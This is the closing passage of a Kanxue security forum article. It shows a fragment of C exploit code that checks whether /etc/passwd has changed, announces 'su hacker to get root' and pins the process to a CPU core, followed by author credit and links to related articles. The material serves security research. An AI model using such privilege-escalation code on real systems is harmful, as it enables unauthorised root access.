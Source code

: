 ```
                     }        // debug("debug");        stat("/etc/passwd",&status);        logu("passwd_size -> %d",status.st_size);        if(status.st_size==passwd_size)continue;        logd("success!!! su hacker to get root");        exit(0);    }                RED;puts("[*]failed");CLOSE;    return 0;}void bind_cpu(int core){    cpu_set_t cpu_set;    CPU_ZERO(&cpu_set);    CPU_SET(core, &cpu_set);    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;}
```  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8G1VoewWmfN1y7Ka2ibhgAwlQtqoEZ1gpkcXIeCWlWQfiafa13ZtSIvnh2QgggeibJAFCSUMNRHRBcpg/640?wx_fmt=png&from=appmsg "")  
  
  
看雪ID：  
默文  
  
https://bbs.kanxue.com/user-home-1026022.htm  
  
*本文为看雪论坛精华文章，由   
默文  
   
原创，转载请注明来自看雪社区  
  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458593263&idx=1&sn=b3503a7dded4e013a4cc644bedbabb48&scene=21#wechat_redirect)  
  
议题征集中！看雪·第九届安全开发者峰会  
  
  
# 往期推荐  
  
[IDA旧版本插件移植后卡死的研究及修复](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458595995&idx=1&sn=7861e1699b2afe72b1973c8529e76cff&scene=21#wechat_redirect)  
  
  
[神奇日游保护分析——从Frida的启动说起](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458595942&idx=1&sn=5474a50cdf6fa924e6cde1c034f06eef&scene=21#wechat_redirect)  
  
  
[Linux 3.10 版本编译 qemu仿真 busybox](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458595872&idx=1&sn=27acee2988a95060ede7a8b826b9a11b&scene=21#wechat_redirect)  
  
  
[深入理解IOS重签名检测](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458595848&idx=1&sn=39c6196cfee31db5bd7add19ebf6be9c&scene=21#wechat_redirect)  
  
  
[驱动挂钩所有内核导出函数来进行驱动逻辑分析](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458595727&idx=1&sn=9f3708ee6e109504785a4827d2de931b&scene=21#wechat_redirect)  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/Uia4617poZXP96fGaMPXib13V1bJ52yHq9ycD9Zv3WhiaRb2rKV6wghrNa4VyFR2wibBVNfZt3M5IuUiauQGHvxhQrA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/1UG7KPNHN8Hice1nuesdoDZjYQzRMv9tpvJW9icibkZBj9PNBzyQ4d4JFoAKxdnPqHWpMPQfNysVmcL1dtRqU7VyQ/640?wx_fmt=gif&from=appmsg "")  
  
**球分享**  
  